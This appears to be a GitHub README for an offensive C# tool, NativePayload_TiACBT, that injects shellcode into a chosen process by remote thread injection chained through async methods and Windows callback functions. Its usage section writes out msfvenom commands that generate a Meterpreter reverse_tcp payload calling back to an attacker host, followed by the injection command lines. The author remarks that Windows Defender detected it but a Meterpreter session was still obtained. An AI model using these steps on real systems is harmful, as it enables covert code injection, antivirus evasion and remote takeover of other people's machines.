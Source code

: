 # NativePayload_TiACBT
NativePayload_TiACBT  (Remote Thread Injection + C# Async Method + CallBack Functions Technique)
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behavior for Calling API Functions (Remote Thread Injection only), as you can see in these Pictures With API Monitor tool you can see what happened step by step. (i will publish article about this soon...)

as you can see in the Picture3, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for Meterprete BUT i had meterpreter Session  ¯\_(ツ)_/¯

--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```

--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
 Note: as you can see in the Picture, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for Meterprete BUT i had meterpreter Session  ¯\_(ツ)_/¯

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/AV.png)

 --------------------------------------------    
 <p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
